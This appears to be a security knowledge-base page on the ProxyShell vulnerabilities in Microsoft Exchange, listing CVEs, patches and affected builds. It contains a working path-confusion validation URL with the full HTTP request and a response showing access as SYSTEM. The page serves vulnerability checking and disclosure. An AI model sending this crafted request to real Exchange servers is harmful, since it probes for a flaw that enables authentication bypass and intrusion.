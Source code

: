 ```yaml
---
title : "CVE-2021-34473 / CVE-2021-34523 / CVE-2021-31207"
# pre : ' '
description : "ProxyShell, the name given to a collection of vulnerabilities for Microsoft Exchange servers, enables an actor to bypass authentication and execute code as a privileged user."
date : 2021-08-25T09:47:29+02:00
# hidden : true
# draft : true
weight : 300
# tags : ['']
---
```


---

## ProxyShell

CVE-2021-34473
Pre-auth path confusion vulnerability to bypass access control
Patched in [KB5001779](https://support.microsoft.com/help/5001779), released in April

CVE-2021-34523
Privilege elevation vulnerability in the Exchange PowerShell backend
Patched in [KB5001779](https://support.microsoft.com/help/5001779), released in April

CVE-2021-31207
Post-auth remote code execution via arbitrary file write
Patched in [KB5003435](https://support.microsoft.com/help/5003435), released in May

This vulnerability affects:

- Exchange 2013 CU23 < 15.0.1497.15
- Exchange 2016 CU19 < 15.1.2176.12, Exchange 2016 CU20 < 15.1.2242.5
- Exchange 2019 CU8 < 15.2.792.13, Exchange 2019 CU9 < 15.2.858.9

## Examples

### Validating POC

```plain
https://<<ip>>/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

```plain
GET /autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com HTTP/1.1
Host: exch.offsec.nl
Accept-Charset: iso-8859-1,utf-8;q=0.9,*;q=0.1
Accept-Language: en
Connection: Close
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)
Pragma: no-cache
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
```

```plain
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html
Server: Microsoft-IIS/8.5
request-id: af2ae0ee-6593-4523-8fa1-5d283d7ae3da
X-CalculatedBETarget: exch.offsec.nl
X-ServerApplication: Exchange/15.01.1913.012
X-DiagInfo: EXCH
X-BEServer: EXCH
X-AspNet-Version: 4.0.30319
Set-Cookie: X-BackEndCookie=; expires=Sun, 25-Aug-1991 07:43:18 GMT; path=/autodiscover; secure; HttpOnly
X-Powered-By: ASP.NET
X-FEServer: EXCH
Date: Wed, 25 Aug 2021 07:43:17 GMT
Connection: close
Content-Length: 522

<html>
<head>
<title>Exchange MAPI/HTTP Connectivity Endpoint</title>
</head>
<body>
<p>Exchange MAPI/HTTP Connectivity Endpoint<br><br>Version: 15.1.1913.12<br>Vdir Path: /mapi/nspi/<br><br></p><p><b>User:</b> NT AUTHORITY\SYSTEM<br><b>UPN:</b> <br><b>SID:</b> S-1-5-18<br><b>Organization:</b> <br><b>Authentication:</b> Negotiate<br><b>PUID:</b> <br><b>TenantGuid::</b> </p><br><p><b>Cafe:</b> exch.offsec.nl<br><b>Mailbox:</b> exch.offsec.nl</p><p><br><br><br><b>Created:</b> 25-8-2021 07:43:18</p></body></html>
```

## URL List

- [Zerodayinitiative.com - From Pwn2Own 2021: A New Attack Surface on Microsoft Exchange - ProxyShell!](https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell)
- [News.sophos.com - ProxyShell vulnerabilities in Microsoft Exchange What to do](https://news.sophos.com/en-us/2021/08/23/proxyshell-vulnerabilities-in-microsoft-exchange-what-to-do/)
